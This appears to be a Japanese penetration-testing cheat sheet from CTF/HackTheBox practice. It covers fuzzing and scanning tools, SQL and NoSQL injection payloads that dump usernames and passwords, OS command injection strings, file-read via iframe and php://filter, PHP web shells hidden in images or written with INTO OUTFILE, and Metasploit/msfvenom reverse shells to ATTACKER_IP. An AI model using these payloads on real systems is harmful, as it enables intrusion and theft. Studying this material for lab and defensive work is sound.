ffuf -w wordlist.txt -u <http://example.com/FUZZ>

# サブドメインの列挙
ffuf -u <http://10.10.10.11> -H "Host: FUZZ.2million.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -mc all -ac
```
### オプション

| オプション               | 説明                                                            |
| ------------------- | ------------------------------------------------------------- |
| `-w` / `--wordlist` | 使用するワードリストファイルを指定します。このリストに基づいてファジングが行われます。                   |
| `-u` / `--url`      | ファジング対象のURLを指定します。`FUZZ` キーワードはURL内でファジングする位置を示します。           |
| `-X` / `--method`   | 使用するHTTPメソッドを指定します（例: GET, POST）。デフォルトは `GET` です。             |
| `-H` / `--header`   | HTTPリクエストヘッダを追加します。複数のヘッダを設定するには、このオプションを複数回使用します。            |
| `-d` / `--data`     | POSTメソッドで送信するデータを指定します。通常、フォームデータやJSONデータの送信に使用します。           |
| `-t` / `--threads`  | 同時に実行するスレッドの数を指定します。デフォルトは40です。大量のリクエストを同時に送信することで、処理を高速化します。 |
| `-s` / `--delay`    | リクエスト間の遅延をミリ秒単位で設定します。これはサーバーへの負荷を減らすのに役立ちます。                 |
| `-e` / `--encoder`  | ファジング文字列のエンコーディング方式を指定します（例: url, html）。デフォルトは何もエンコードされません。   |
| `-request`          | HTTPリクエストが記載されたファイルを引数に取る                                     |
| `-c`                | カラー出力する。                                                      |
| `-o`                | 出力を保存するファイルを引数に取る。                                            |

### フィルタリングオプション
一致したものを非表示にする `f` 系と、一致したもののみを表示する `m` 系がある。
`-fc` `-mc` のように指定する。
## Wfuzz

通常想定されていないデータをシステムに与えて潜在的な脆弱性を検出するテスト手法。例えばHTTPリクエストのヘッダーの値を調整できる。

```bash
# webページのディレクトリやファイルを探す
wfuzz -c -z file,FILE_PATH --hc 404 "IP_ADDRESS/FUZZ"
```
オプションは以下。

|オプション|説明|
|---|---|
|-u|引数にURLを取る|
|-w|引数に辞書ファイルを取る|
|-c|カラーで出力|
|-z file,|後ろに辞書ファイルを指定|
|—hc|引数に表示しないステータスコードを取る(e.g. 404,401)|
|—hw|引数に表示しない文字数を取る|
|—ss|引数に取った文字列を含むレスポンスを出力する|

辞書ファイルの `#` から始まる行をヒットしたと解釈してしまうので当該文字を含む辞書ファイルを用いる場合は `#` から始まる行を削除した辞書ファイルを作成しておいた方がよい。
ある入力フォームにおいて入力禁止の文字列を特定するために、POSTリクエストボディのnameの値に対してファジングを行い、 `banned` というレスポンスが出力された場合のみ検知する例。
```bash
wfuzz -u <http://10.10.11.170:8080/search> -d name=FUZZ -w /usr/share/seclists/Fuzzing/alphanum-case-extra.txt --ss banned
```
## CeWL

Custom Word List generator.
webページを探索してワードリストを作成するツール。
```bash
cewl URL
```
オプションは以下。

| オプション | 説明                    |
| ----- | --------------------- |
| -w    | 引数にアウトプットを保存するファイルを指定 |
# Scanner
## nikto
HTTPサービスの情報収集ツール。
```bash
nikto -h URL
```
## droopescan
Pythonベースのセキュリティスキャナー。Drupal, Wordpress, Joomla!などのCMSツールに対応。
```bash
droopescan scan CMS_NAME -u URL
```
## wig
webアプリの情報収集ツール。CMSやOSのバージョンなどを調べる。
```bash
wig $URL
```
## wpscan
wordpressで構成されたwebサイトのユーザ情報などを調べる。
```bash
wpscan --url URL -e ap,t,tt,u
```
### 基本オプション

|オプション|説明|
|---|---|
|`--url <URL>`|ターゲットとなるWordPressサイトのURLを指定。|
|`--api-token <TOKEN>`|APIトークンを指定し、脆弱性データを取得。|
|`--disable-tls-checks`|SSL/TLS証明書の検証を無効化。|
|`--random-user-agent`|ランダムなUser-Agentを使用。|
|`--proxy <[protocol]://IP:PORT>`|プロキシ経由でスキャンを実施。|
|`--output <ファイル名>`|スキャン結果をファイルに保存。|
|`--verbose`|詳細情報を表示。|

### 列挙オプション

| オプション             | 説明                  |
| ----------------- | ------------------- |
| `--enumerate p`   | プラグインを列挙。           |
| `--enumerate vp`  | 脆弱なプラグインのみ列挙。       |
| `--enumerate ap`  | すべてのプラグインを列挙。       |
| `--enumerate t`   | 使用されているテーマを列挙。      |
| `--enumerate vt`  | 脆弱なテーマのみ列挙。         |
| `--enumerate at`  | すべてのテーマを列挙。         |
| `--enumerate u`   | ユーザー名を列挙。           |
| `--enumerate dbe` | データベースエラーを列挙。       |
| `--enumerate c`   | コンフィグバックアップファイルを列挙。 |
| `--enumerate m`   | メディアファイルを列挙。        |

プラグインの列挙はURL中のパスの部分のページしかチェックしない可能性があるのでプラグインの使用が疑わしい箇所はソースコードを手動で確認してみると良い。
## dirb

webコンテンツのスキャナー。

```bash
dirb URL WORD_LIST
```
# Web
## Burp
ローカルプロキシ。
POSTリクエストの文字列を選択した状態でctrl + Uを押すとエンコードできる。
## SQLインジェクション

### information_schemaデータベース

データベースに関する情報が保存されている、MySQLなどにデフォルトで存在するデータベース。主なテーブルは以下。

|テーブル|説明|
|---|---|
|schemata|DB自体のメタ情報(テーブル名や文字コード)を格納している|
|tables|テーブルのメタ情報を格納している。table_schemaにDB名、table_nameにテーブル名が格納されている。|
|columns|カラムのメタ情報を格納している。tablesと同様にDB名やテーブル名も格納されている。|

### インジェクション試行の流れ
チートシート
[PayloadsAllTheThings/SQL Injection at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
```bash
# 簡単なペイロードを送信してSQLiの脆弱性があるかどうか確かめる
' # シングルクォートのみ
OR 1=1 --
OR 1=1 -- -
'OR 1=1 --
'OR 1=1 -- -
UNION SELECT 1--
'UNION SELECT 1--
```
SQLiの脆弱性がある場合、各SQLサービス固有のペイロードを送信して使われているデータベースの種類を特定する
```bash
# SQLite
UNION SELECT sqlite_version()--

# MySQL
UNION SELECT version()--  
UNION SELECT @@version--  

# PostgreSQL
UNION SELECT version()--  

# Microsoft SQL Server
UNION SELECT @@version--  

# Oracle Database
UNION SELECT banner FROM v$version--  
UNION SELECT version FROM v$instance--  

# MariaDB
UNION SELECT version()--  

# IBM Db2
UNION SELECT service_level FROM sysibm.sysversions--  

# Firebird
UNION SELECT rdb$get_context('SYSTEM', 'ENGINE_VERSION') FROM rdb$database--  

# SAP HANA
UNION SELECT VERSION FROM "SYS"."M_DATABASE"--  

# Amazon Redshift
UNION SELECT version()--  
```
データベースの種類を特定したらテーブル一覧を取得する。
```bash
# SQLite
UNION SELECT name FROM sqlite_master WHERE type='table';--  

# MySQL / MariaDB
UNION SELECT table_name FROM information_schema.tables WHERE table_schema=database();--  

# PostgreSQL
UNION SELECT table_name FROM information_schema.tables WHERE table_schema='public';--  

# PostgreSQLで他のスキーマも調べたい場合
UNION SELECT table_name FROM information_schema.tables WHERE table_schema LIKE '%';--  

# Mircsoft SQL Server
UNION SELECT name FROM sysobjects WHERE xtype='U';--  

# Oracle Database
UNION SELECT table_name FROM all_tables;--  

# IBM Db2
UNION SELECT tabname FROM syscat.tables WHERE tabschema=CURRENT SCHEMA;--  

# Firebird(ビューとシステムテーブル以外)
UNION SELECT rdb$relation_name FROM rdb$relations WHERE rdb$view_source IS NULL AND rdb$system_flag=0;--  

# Firebirdですべてのテーブルとビューを取得する場合
UNION SELECT rdb$relation_name FROM rdb$relations;--  

# Amazon Redshift
UNION SELECT tablename FROM pg_catalog.pg_tables WHERE schemaname='public';--

# Amazon Redshift(すべてのスキーマのテーブルを取得)
UNION SELECT tablename FROM pg_catalog.pg_tables;--    
```
テーブル一覧を取得したら、テーブルのカラム一覧を取得する。
```bash
# SQLite
UNION SELECT GROUP_CONCAT(name, \\",\\") FROM pragma_table_info(\\"accounts\\");--

# MySQL / MariaDB
UNION SELECT GROUP_CONCAT(column_name, ',') FROM information_schema.columns WHERE table_name='accounts' AND table_schema=database();--  

# PostgreSQL
UNION SELECT STRING_AGG(column_name, ',') FROM information_schema.columns WHERE table_name='accounts' AND table_schema='public';--  

# Microsoft SQL Server
UNION SELECT STRING_AGG(name, ',') FROM sys.columns WHERE object_id = OBJECT_ID('accounts');--  

# Microsoft SQL Server 2017 以前の場合
UNION SELECT STUFF((SELECT ',' + name FROM sys.columns WHERE object_id = OBJECT_ID('accounts') FOR XML PATH('')), 1, 1, '');--  

# Oracle Database
UNION SELECT LISTAGG(column_name, ',') WITHIN GROUP (ORDER BY column_id) FROM all_tab_columns WHERE table_name='ACCOUNTS';--  

# IBM Db2
UNION SELECT LISTAGG(colname, ',') WITHIN GROUP (ORDER BY colno) FROM syscat.columns WHERE tabname='ACCOUNTS';--  

# Firebird
UNION SELECT LIST(column_name, ',') FROM rdb$relation_fields WHERE rdb$relation_name='ACCOUNTS';--  

# Amazon Redshift
UNION SELECT LISTAGG(column_name, ',') FROM information_schema.columns WHERE table_name='accounts';--  
```
カラム一覧が取得できたら、テーブルのデータを取得する。ここでは `username` と `password` の　2つのカラムがあると仮定する。
```bash
# SQLite
UNION SELECT GROUP_CONCAT(username || password) FROM accounts;--

# MySQL / MariaDB
UNION SELECT GROUP_CONCAT(CONCAT(username, password)) FROM accounts;--  

# PostgreSQL
UNION SELECT STRING_AGG(username || password, ',') FROM accounts;--  

# Microsoft SQL Server
UNION SELECT STRING_AGG(username + password, ',') FROM accounts;--  

# Microsoft SQL Server 2017 以前の場合
UNION SELECT STUFF((SELECT ',' + username + password FROM accounts FOR XML PATH('')), 1, 1, '');--  

# Oracle Database
UNION SELECT LISTAGG(username || password, ',') WITHIN GROUP (ORDER BY username) FROM accounts;--  

# IBM Db2
UNION SELECT LISTAGG(username || password, ',') WITHIN GROUP (ORDER BY username) FROM accounts;--  

# Firebird
UNION SELECT LIST(username || password, ',') FROM accounts;--  

# Amazon Redshift
UNION SELECT LISTAGG(username || password, ',') FROM accounts;--
```
UNIONインジェクションが可能かつPHPのアプリケーションの場合のみ `INTO OUTFILE` 構文を用いて任意のファイルを書き込むことができる
```bash
UNION SELECT "<?php echo system($_GET['cmd']); ?>" INTO OUTFILE '/path/to/directory'-- -
```
## sqlmap

SQLインジェクション攻撃を自動化するツール。

```bash
sqlmap -u URL OPTIONS

# cookieにPHPSESSIDをセット
sqlmap -u URL --cookie="PHPSESSID=XXXX"

# POSTメソッドなど、特定のHTTPメソッドを使用してリクエストを送信する場合(idはURLパラメータ)
sqlmap -u "<http://example.com/vulnerable.php>" --data="id=1" --method=POST

# websocketを用いたフォームに対してSQLインジェクションを試みる場合
sqlmap -u "ws://example.com:PORT_NUMBER" --data '{"id": "*"}'
```
オプションは以下。

| オプション          | 説明                                                                             |
| -------------- | ------------------------------------------------------------------------------ |
| -u             | 引数に攻撃対象のURLを取る                                                                 |
| —dbs           | データベースの情報を取得                                                                   |
| -D             | 引数にデータベース名を指定                                                                  |
| —tables        | テーブルの情報を取得                                                                     |
| -T             | 引数にテーブル名を指定                                                                    |
| —columns       | 列情報を取得                                                                         |
| -C             | 引数に列名をカンマ区切りで指定(e.g. `id,name,password,date` )                                 |
| —dump          | テーブルに格納されているデータを表示                                                             |
| —os-shell      | SQLインジェクションを利用してOSシェルを起動                                                       |
| —flush-session | セッションをクリア                                                                      |
| —time-sec      | サーバが応答するまでの待ち秒数を引数に取る                                                          |
| -p             | インジェクションを試みるパラメータ名を引数に取る                                                       |
| -r             | HTTPリクエストのファイルを引数に取る                                                           |
| —batch         | 対話形式の質問を自動処理してスキップ(デフォルトの選択肢をとる)                                               |
| —level         | スキャンの深さを示す数字を引数に取る。デフォルトは1で最大値は5。数が増えるにつれてより網羅的になるがスキャンに時間がかかる。3くらいがちょうどよい。    |
| —risk          | 危険度の高いテストの程度を示す数字を引数に取る。デフォルトは1で最大値は3。数が増えるにつれてサーバへの負担や破壊的な操作が増える。2くらいがちょうどよい。 |
| —threads       | 並列処理するスレッドの数を引数に取る。デフォルトは1。数字を上げるとスキャン速度は向上するがサーバに負荷がかかるので最大でも10程度がよい。         |
| —privileges    | データベースユーザが持つ権限を取得する。                                                           |
| —file-read     | ターゲットOS上のファイルを引数に取る。`--privileges` コマンドの結果 `FILE` 権限がある場合のみ有効。                 |
| —file-write    | 書き込むファイルのローカルのパスを引数に取る。`--privileges` コマンドの結果 `FILE` 権限がある場合のみ有効。              |
| —file-dest     | ファイルの書き込み先のディレクトリのパスを引数に取る。`--privileges` コマンドの結果 `FILE` 権限がある場合のみ有効。          |

基本的に最初からDB名・テーブル・列のすべての名前を把握できる場合は少ないので、まずはデータベース名を調べ、判明したDB名を基にテーブルを調べ、判明したテーブル名を基に列を調べ…と順々に調べていく。

`--os-shell` がうまくいかない場合は以下を試してみる。

```bash
sqlmap -u URL --os-shell --time-sec 20
```
## NoSQL
従来のSQLのような表形式ではないデータベースの総称。MongoDBやRedisなどのサービスがある。
### NoSQLインジェクション

NoSQLはデータの操作にSQL文を使わず、独自のクエリ言語やAPIを使用する。sqlmapはNoSQLインジェクションには対応していない。

#### 攻撃例1

NoSQLを用いた認証の典型的なコード例

```jsx
this.username === '${value}' && this.password === '${value}'
```

`username`に対してユーザ名が `admin` という前提のもと、以下のようなペイロードを入力する。

```jsx
admin' || '' === '
```

すると上記コード部分はこのようになり、常にtrueとなる。

```jsx
this.username === 'admin' || '' === '' && this.password === 'value'
```

#### 攻撃例2

認証コード例

```jsx
const users = await User.find({
   username: username,
   password: password,
});
```

`username` や `password` が文字列ではなくオブジェクトとして受け取っていた場合以下のようなペイロードを入力すると認証突破できる場合がある。

```jsx
const users = await User.find({
  username: 'john',
  password: {
    $ne: 'dummy'
  },
});
```

`$ne` はNot equalを意味するMongoDBの比較用のオペレータ。

[MongoDBにおけるNoSQLインジェクション: 脆弱性の仕組みと対策 - Qiita](https://qiita.com/AeyeScan/items/c48938baff367cf0e4f3)

## MySQL

```bash
mysql -u USER_NAME -p -h IP_ADDRESS
```
オプションは以下。

|オプション|説明|
|---|---|
|-u|引数にユーザ名を取る|
|-p|引数にパスワードを取る(パスワードは-pの直後に空白を入れずに書く|
|-h|引数にmysqlサーバのホスト名またはIPアドレスを取る。このオプションがないとlocalhostに接続する|
|—skip-ssl|SSLをスキップ|
|-e|引数にSQLのコマンドを取る|

データベースの簡単なコマンドは以下。
```bash
# データベース一覧を表示
show databases;

# 使用するデータベースを決定
use DATABASE_NAME;

# テーブル一覧を表示
show tables;

# テーブルの内容をレコードごとに縦に表示
select * from TABLE_NAME\\G
```
## PostgreSQL

```bash
psql -h HOST_NAME -p PORT_NAME -U USER_NAME -d DATABASE_NAME
```

引数のデフォルト値

|引数|説明|
|---|---|
|-h|localhost, 127.0.0.1|
|-p|5432|
|-U|ログインしているOSのユーザ名|
|-d|ログインしているOSのユーザ名|

`-h` オプションなどはlocalhostに接続したい場合であっても省略するとエラーになったので明示しておいたほうが良いかも。

`psql` でログイン後は `\\` が接頭辞につくコマンドで操作を行う。

```bash
# 利用可能なDBを表示
\\list

# 利用するDBを選択
\\connect DB_NAME

# 利用可能なテーブルを表示
\\dt

# DBを選択後は任意のSQLコマンドを実行できる
select * from TABLE_NAME;

# PostgreSQLから切断
\\q
```
## SQLite

```bash
# 起動
sqlite3 DB_FILE.db

# 終了
.exit

# ヘルプ
.help

# テーブル一覧表示
.tables
```
## mongoDB
NoSQLの一種。DB→collection→documentという単位でデータを管理する。ドキュメントはJSONのようなキーと値の対応関係で管理される。
```bash
# mongoDBシェルに接続
mongo

# 特定のホストやポートに接続する場合
mongo --host HOST_NAME --port PORT_NUMBER

# データベース一覧を表示
show dbs

# 利用するデータベースを指定
use DB_NAME

# コレクション一覧を表示
show collections

# データの取得
db.COLLECTION_NAME.find().pretty()
```
## OSコマンドインジェクション

`#` を後ろに入力して以降の内容をコメントアウト

```bash
;COMMAND;#
```

Brace Expansionを使ってコマンドを展開

```bash
;{ping,-c,1,10.10.14.6};#
```

空白を示す環境変数である `${IFS}` を利用

```bash
;ping${IFS}-c${IFS}1${IFS}10.10.14.6#
```

コマンドの実行結果が確認できない場合もあるので成功の可否はsleepコマンドなどを用いて応答時間から判断(blind injection)。

```bash
;sleep 10
```
## HTMLインジェクション
ユーザーの入力を基に動的コンテンツを生成するwebサービスにおいて、任意のHTMLタグを挿入する。ローカルファイルインクルージョンを行いサーバ内部のファイルを取得したりするのが一例。動的PDF生成の例は特にサーバーサイドXSSともいう。
[Server Side XSS (Dynamic PDF) - HackTricks](https://book.hacktricks.wiki/en/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf.html)
挿入するタグの例
```html
<iframe src='file:///etc/passwd' width='1000' height='1000'></iframe>
```
```html

```
## SSTI
Server Side Template Injection.
pythonやjavaなどのフレームワークを用いて作られたwebページにおいて、そのフレームワーク固有のテンプレートとなる文字列を挿入することでLFIやOSコマンドインジェクションにつなげることができる場合がある。
反射型XSSのように、ユーザの入力をもとに動的にDOMを生成している場合などに有効。
[SSTI (Server Side Template Injection) - HackTricks](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html?highlight=SSTI#ssti-server-side-template-injection)
### SSTImap
SSTIの自動化ツール。対応しているテンプレートエンジンが限られているためSpring Bootなどには対応していないことに注意。
[GitHub - vladko312/SSTImap: Automatic SSTI detection tool with interactive interface](https://github.com/vladko312/sstimap?tab=readme-ov-file)
## XXEインジェクション
XML eXternal Entity.
XMLファイルのDTDで外部実体宣言を利用してサーバ内外の任意のファイルを参照することができる。Java・PHP・RubyなどXMLの処理を行うプログラムにおいてDTDが有効になっていない場合に利用できる可能性がある。JavaではDTDはデフォルトで有効になっている。
詳しい仕組みは下記ブログ。
[XXE攻撃 基本編 | 技術者ブログ | 三井物産セキュアディレクション株式会社](https://www.mbsd.jp/research/20171130/xxe1/)
## php://filter

ブラウザのURLでパラメータにphpファイルが指定されている場合に有効。phpファイルに対してラッパーフィルターを適用することができる。ブラウザ上でPHPファイルが実行される前に強制的にフィルターが適用される。
フィルターの種類は以下。

|フィルター|説明|
|---|---|
|convert.base64-encode|Base64でエンコードする|
|convert.base64-decode|Base64でデコードする|
|string.rot13|ROT13シフト13暗号で変換する|
|string.toupper|すべて大文字に置換|
|string.tolower|すべて小文字に置換|
|string.strip_tags|HTMLおよびPHPタグを削除|
|bzip2.compress|bzip2圧縮アルゴリズムで圧縮|
|bzip2.decompress|bzip2展開アルゴリズムで展開|

使用例
```bash
<http://localhost:1111/?page=php://filter/convert.base64-encode/resource=config.php>
```
`.php` の拡張子の有無は状況に応じて判断。アプリケーション側で拡張子を付与している場合は拡張子は含めなくてよい。
## Deserialization

シリアライズ処理によって一つの文字列やバイト列に変換されたデータを元の複合的なデータ構造やオブジェクトに変換すること。

任意のスクリプトをシリアライズ処理してデシリアライズの処理を行う関数に渡すことでコマンド実行ができる可能性がある。

[Deserialization - HackTricks](https://book.hacktricks.wiki/en/pentesting-web/deserialization/index.html?highlight=node%20js#deserialization)
## EAR
Execution After Redirect.
JavascriptやPHPなどを用いたwebページにおいて、適切なターミネーション処理を行わないことによりリダイレクト前のページにアクセスできてしまう脆弱性。
BurpのProxyは基本的にはリクエストのみを止めるが、設定の変更によりレスポンスも止めることで、EAR脆弱性のあるリダイレクト前のコンテンツを閲覧できる可能性がある。
[Execution After Redirect (EAR) | OWASP Foundation](https://owasp.org/www-community/attacks/Execution_After_Redirect_\(EAR\))
## js-beautify

難読化されたjavascriptコードをデコードする。

[Online JavaScript beautifier](https://beautifier.io/)

初期設定だと難読化されたコードにインデントを入れたりしてくれるだけなので`Detect packers and obfuscators? (unsafe)` にチェックを入れる。
## WWW-Authenticate
HTTPプロトコルにおいて、認証が必要なリソースにアクセスしたクライアントに対してサーバが認証方法を指定するためのレスポンスヘッダ。401ステータスコードとともに送信される。
基本的な構文は以下の通り。
```bash
WWW-Authenticate: <認証方式> realm="<領域>"
```
認証方式にはBasicやDigestやBearerなどの方式が入る。
realmには認証が適用される範囲が指定される。この部分にユーザ名などが含まれている場合がある。
## cgi-bin
webサーバと外部プログラムをつなぐ仕組みであるCGI(Common Gateway Interface)を用いたCGIスクリプトを置く専用のディレクトリ。 `/cgi-bin` 配下のスクリプトにwebからアクセスすると当該スクリプトの実行結果が返される。
CGIスクリプトにはpython, perl, shell, cなどがある。
## PHP
### reg_replace
正規表現を用いた文字列の置換を行う関数。
```php
preg_replace(
    string|array $pattern,
    string|array $replacement,
    string|array $subject,
    int $limit = -1,
    int &$count = null
): string|array|null
```
`$subject`中の`$pattern`に合致する部分を `$replacement`に置換する。
`$pattern`の正規表現は `/[regex]/[optional modifier]`のような形式だが、この`optional modifier`(修飾子)に`e`を指定すると、`$replacement`内に指定されたPHPコードを実行してから文字列の置換を行う。そのためここに `system("id")`のようなコマンドを入力することで任意のOSコマンドを実行できる。
# File Upload
webページのファイルアップロード機能では主に以下の方法でファイルの形式を確認している。
- ファイルの拡張子
- `Content-Type`ヘッダ
- マジックバイト
これらの情報を修正することで任意のPHPシェルなどをアップロードできる場合がある。
## 任意のスクリプトの画像ファイルへの挿入

以下のようなphpのwebシェルを画像ファイルに追記する。

```php
<?php
	
	if(isset($_REQUEST['cmd'])){
		echo "<pre>";
		$cmd = ($_REQUEST['cmd']);
		system($cmd);
		echo "</pre>";
		die;
	}

?>
```

```bash
cat PHP_FILE_ABOVE >> IMAGE_FILE
```

ヘッダーの識別子が画像ファイルなのにフッターの識別子が一致しないにもかかわらずビューアーでは画像が表示されることがある。このようなファイルは画像ファイルの後部に何か別のデータが追加されている可能性がある。
# Vulnerability Databases
## Exploit-DB

[OffSec’s Exploit Database Archive](https://www.exploit-db.com/)

## Rapid7

[Vulnerability & Exploit Database - Rapid7](https://www.rapid7.com/db/)

## searchsploit

Exploit-DBのコマンドライン検索ツール

```bash
searchsploit KEYWORDS
```

出力されたexploitのファイルは `/usr/share/exploitdb/exploits/` に存在。

`-m` オプションの引数にexploitファイルのパス(`/usr/share/exploitdb/exploits/` より下)を指定してカレントディレクトリにコピーできる。
# Metasploit

脆弱性の利用やスキャン、攻撃など様々な機能を有するフレームワーク。Metasploit consoleを介して利用する。

```bash
# metasploit consoleを起動
msfconsole
```

metasploitではグローバル変数やパラメータ設定はそれぞれのモジュール固有のものとなる。

```bash
# モジュールを用いる
use MODULE_PATH

# モジュールのオプションを表示
show options

# 高度なオプションを表示
show advanced options

# モジュールのペイロードを表示
show payloads

# モジュールを離れる
back
```

`info` コマンドでモジュールの詳細情報を表示できる。モジュールパスを指定しないと現在のモジュールの情報を表示する。

```bash
info [MODULE_PATH]
```

`search` コマンドでモジュールの検索ができる。

```bash
search WORDS

# auxiliaryモジュールのtelnetを検索
# platformはlinuxを指定
search type:auxiliary telnet platform:linux

# 検索後にモジュールのインデックスを指定してuseコマンドを用いることができる
search ms17
>>>
   #  Name                                                  Disclosure Date  Rank     Check  Description
   -  ----                                                  ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue              2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec                   2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command                  2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                                     normal   No     MS17-010 SMB RCE Detection

use 0
```

モジュールを使用する場合はパラメータを設定する必要がある( `show options` で確認可能)。

```bash
set PARAMETER_NAME VALUE

# パラメータを指定してクリア
unset PARAMETER_NAME

# すべてのパラメータをクリア
unset all

# モジュール固有でないグローバルパラメータをセット
setg PARAMETER_NAME VALUE

# グローバルパラメータを削除
unsetg PARAMETER_NAME
```

よく使用するパラメータは下表。

|パラメータ|説明|
|---|---|
|RHOSTS|Remote host。攻撃対象のIPアドレスまたはネットワークレンジ。|
|RPORT|Remote port。脆弱なアプリが実行されている攻撃対象のポート番号。|
|PAYLOAD|使用するペイロード。|
|LHOST|Localhost。攻撃に使用するPC(攻撃元)のIPアドレス。|
|LPORT|Local port。リバースシェルに用いるポート番号。|
|SESSION|metasploitを用いて構築した攻撃対象との各接続の持つ固有のID。|

各exploitはpayloadと共に実行することができる。

```bash
# payload一覧を表示
show payloads

# インデックスで利用するpayloadを指定可能(useではないことに注意)
set payload INDEX
```

すべてのパラメータをセット後、`exploit` または `run` コマンドでモジュールを実行する。

```bash
# セッションをバックグランドにする場合はzオプションをつける
exploit -z
```

exploit成功後、セッションが開通する。

`background` コマンドまたはctrl + zを用いてセッションプロンプトをバックグランドにすることもできる。

```bash
background
```

`sessions` コマンドを用いて既存のセッションを確認することができる。

```bash
sessions
>>>
Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49163 (10.10.12.229)
  2         meterpreter x64/windows  NT AUTHORITY\\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49186 (10.10.12.229)

# session一覧表示後、iオプションの引数にidを指定してセッションを利用できる。
sessions -i 2
```

### Payload

exploitのプログラム。リバースシェルのPayloadは2種類ある。

Staged

はじめに攻撃対象のサーバに送信されるstagerとその後で読み込まれるpayloadの2つの部分に分けられる。stagerはサーバーで直接実行され待機しているリスナーに接続するが、リバースシェルそのものは含んでおらずリスナーに接続してpayloadを読み込む役割を持つ。ストレージにはアクセスせずメモリ上で読み込まれるためアンチウイルスソフトにはアクセスされづらいが、現代のアンチウイルスソフトには検知される。

Stageless

より一般的に利用される種類。

ペイロードの名前は `<OS>/<arch>/<payload>` の形式で命名されるのが一般的。ただしarchはwindows 32bitのときのみ省略される(e.g. `windows/shell_reverse/tcp` )。

Staged Payloadの場合はスラッシュを用いて `shell/reverse_tcp` 、Stageless Payloadの場合はアンダースコアを用いて `shell_reverse_tcp` のようになる。

## Port Scan

Metasploitはいくつかのポートスキャンモジュールを提供しているが、スピードの観点から考えるとnmapを用いたほうが良い。

### UDP service Identification

`scanner/discovery/udp_sweep`

UDPで動くサービスを探す。すべてのサービスを探すことはできないがDNSやNetBIOSのようなサービスの検出に役立つ。

### SMB Scans

`smb_enumshares` または `smb_version`

ネットワーク間でファイルのやり取りをおこなうSMBやNetBIOSなどのサービスを検出する。これらのサービスでは認証なしに授受を行えることがある。

## Metasploit Database

攻撃対象のポートが複数ある場合などにその情報をまとめて保存することができる。

```bash
# Metasploit Databaseを初期化
systemctl start postgresql
msfdb init

# msfconsoleに入ってデータベースに接続
db_status

# ワークスペースの一覧を表示
workspace

# 新しいワークスペースを作成(削除は-d)
workspace -a WS_NAME

# 既存のワークスペースに移動
workspace WS_NAME

# nmapの結果をデータベースに保存
db_nmap IP_ADDRESS

# ホストに関する情報を表示
hosts

# サービスに関する情報を表示
services

# ホスト情報をRHOSTSパラメータに代入
hosts -R
```
# Reverse Shell
## Reverse Shell Generator

```cardlink
url: https://www.revshells.com/
title: "Online - Reverse Shell Generator"
description: "Online Reverse Shell generator with Local Storage functionality, URI & Base64 Encoding, MSFVenom Generator, and Raw Mode. Great for CTFs."
host: www.revshells.com
favicon: https://www.revshells.com/favicon.442ac9e8.ico
image: https://user-images.githubusercontent.com/58673953/111243529-9d646f80-85d7-11eb-986c-9842747dc2e7.png
```
[Online - Reverse Shell Generator](https://www.revshells.com/)
## venv
pythonの仮想環境。パッケージの導入状態を管理できる。pythonのexploitを利用する際に活用可能。

```bash
# 環境を作成
python3 -m venv ENV_NAME

# アクティベート(mac, linux)
source ENV_NAME/bin/activate

# ディアクティベート
deactivate
```
# Shell Upgrade

## Python

Pythonがデフォルトインストールされていることの多いLinuxの場合に有効な手段。

```bash
# pythonを用いてbash shellを生成
python -c 'import pty;pty.spawn("/bin/bash")'

# term commandsにアクセスできるようにする
export TERM=xterm

# ctrl + Zでshellをバックグラウンドに回した後でterminal echoを無効にし、シェルに戻る
stty raw -echo;fg
```

## rlwrap

windowsのshellを扱う場合に有効。

```bash
rlwrap nc -lvnp PORT_NUMBER
```
## Msfvenom

リバース・バインドシェルのコードを生成するツール。様々な形式( `.exe` や `.py` )のペイロード作成にも使える。

msfvenomの基本的な構文は以下。

```bash
msfvenom -p PAYLOAD OPTIONS

# windowsのリバースシェルをexeで作成
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=LOCAL_IP_ADDRESS LPORT=PORT_NUMBER
```
### OPTIONS

|オプション|説明|
|---|---|
|-f|引数にアウトプットの形式を取る|
|-o|引数に生成されたペイロードの保存場所とファイル名を取る|
|LHOST|接続先のIPアドレス|
|LPORT|接続先のポート番号|
|-a|引数にアーキテクチャを指定|
|-p|引数にペイロードを指定|
|-v|ペイロードを含む変数名を引数に取る|

ペイロードの例

|プラットフォーム|ペイロード|
|---|---|
|Windows|`windows/meterpreter/reverse_tcp`|
|Linux|`linux/x86/meterpreter/reverse_tcp`|
|macOS|`osx/x86/shell_reverse_tcp`|
|Android|`android/meterpreter/reverse_tcp`|
|Web (PHP)|`php/meterpreter/reverse_tcp`|

`-b` オプションによってバッドキャラクタを指定してそれらを含まないペイロードを生成できる。
ペイロードの作成後、msfcosoleを起動して待ち受ける。

```powershell
msfconsole
user exploit/multi/handler
set PAYLOAD PAYLOAD
set LHOST ATTACKER_IP
set LPORT ATTACKER_PORT
run
```

## Meterpreter

攻撃対象で動作するシェルのようなシステム。メモリ上で動作するのでログが残らず検知されない。しかし主要なアンチウイルスソフトにはバレる。

```bash
# meterpreterのpayloadsを表示
msfvenom --list payloads | grep meterpeter
```

攻撃対象のOSや利用可能なコンポーネント(pythonがインストールされている, PHPウェブサイトetc)や攻撃対象との間で確立したネットワークのタイプ(TCPが使える, HTTP reverse connectionが利用できるetc)などを基に使用するmeterpreterのバージョンを決める。

### コマンド
| コマンド       | 説明                                                     |
| ---------- | ------------------------------------------------------ |
| help       | コマンド一覧を表示                                              |
